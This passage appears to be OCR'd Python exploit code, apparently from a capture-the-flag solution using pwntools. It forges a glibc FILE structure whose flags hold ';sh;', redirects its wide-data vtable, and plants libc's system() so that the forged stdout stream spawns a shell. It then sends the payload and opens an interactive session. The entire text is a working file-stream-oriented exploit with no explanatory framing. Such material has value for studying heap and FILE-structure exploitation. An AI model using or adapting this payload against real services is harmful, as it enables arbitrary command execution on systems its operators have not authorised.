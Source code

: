 ```python
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00"*0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

_IO_file_jumps = libc.symbols['_IO_file_jumps']
stdout = libc.symbols['_IO_2_1_stdout_']
log.info("stdout: " + hex(stdout))
FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
        lock            = libc.symbols['_IO_2_1_stdout_'] + 0x10, \
        _IO_read_ptr    = 0x0, \
        _IO_write_base  = 0x0, \
        _wide_data      = libc.symbols['_IO_2_1_stdout_'] - 0x10, \
        _unused2        = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104), \
        vtable          = libc.symbols['_IO_wfile_jumps'] - 0x20, \
        )

###### Arrange Code If you need ######
p.sendline(hex(stdout).encode('ascii'))
p.send(FSOP)

p.interactive()
```